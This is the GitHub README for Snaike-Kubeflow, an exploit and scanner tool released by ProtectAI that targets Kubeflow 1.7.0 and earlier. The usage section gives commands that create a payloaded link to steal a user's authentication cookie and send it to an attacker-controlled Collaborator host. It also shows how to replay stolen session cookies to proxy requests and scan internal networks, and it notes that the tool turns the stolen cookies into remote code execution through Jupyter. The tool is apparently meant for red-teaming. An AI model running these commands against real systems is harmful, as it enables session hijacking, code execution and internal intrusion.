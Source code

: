 # Snaike-Kubeflow

Snaike: ProtectAI's Python AI red teaming toolsuite

Kubeflow: Platform for the machine learning lifecycle

Snaike-Kubeflow is a scanner and exploit tool for vulnerabilities in Kubeflow version <=1.7.0 which allows for an attacker to gain access to an authenticated user's cookies, then turn those into remote code execution through Kubeflow's Jupyter notebooks. Additionally, once authenticated, an attacker can use Kubeflow to as a proxy to access internal network servers.

### Installation
```bash
git clone https://github.com/protectai/Snaike-Kubeflow
cd Snaike-Kubeflow
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```
## Usage
### Get user's authentication cookie
Creates a payloaded link to send to a Kubeflow user to steal their authentication cookie
```bash
python3 Kubejack.py --fetch-cookie --attacker-url <attacker_url> --target-url <target_url>
```
Example using BurpSuite's Collaborator link as the attacker's URL: 

`python Kubejack.py --fetch-cookie --attacker-url 8v4lxpiftcnsgj3pchs8tk8mvd14pwtki.oastify.com --kubeflow-url http://kubeflow.company.com`

### Get a URL proxied through Kubeflow
```bash
python Kubejack.py --send-get --get-url <URL to fetch> --path <URL path> --kubeflow-url <URI of Kubeflow> --cookie <authservice_session cookie value>
```
Example:

`python Kubejack.py --send-get --get-url protectai.com --path / --kubeflow-url http://kubeflow.company.com:9999 --cookie MTY4Nzg5NTgyMXxOd3dBTkZKTlRsUkxTMXBSVFRaQldUWlhUMEZXTTFCVFFreElXVWhPUVVoUVJsUkdNa1JWTTBoTFQxcExWVlF5TmxGS1EwaE1XRkU9fDNFMXkwoKlQprr9jJnvuX_osZR9BkyCVJuMcP4kg67v`

### Scan internal network through Kubeflow
```bash
python Kubejack.py --scan --ip-list </path/to/list/of/ips.txt> --cookie <authservice_session cookie> --kubeflow-url <URL of Kubeflow>
```
Example:

`python Kubejack.py --scan --ip-list /tmp/ips.txt --cookie MTY4Nzg5NTgyMXxOd3dBTkZKTlRsUkxTMXBSVFRaQldUWlhUMEZXTTFCVFFreElXVWhPUVVoUVJsUkdNa1JWTTBoTFQxcExWVlF5TmxGS1EwaE1XRkU9fDNFMXkwoKlQprr9jJnvuX_osZR9BkyCVJuMcP4kg67v --kubeflow-url http://kubeflow.company.com:9999`


## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

## License

Copyright 2023 ProtectAI

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

   http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
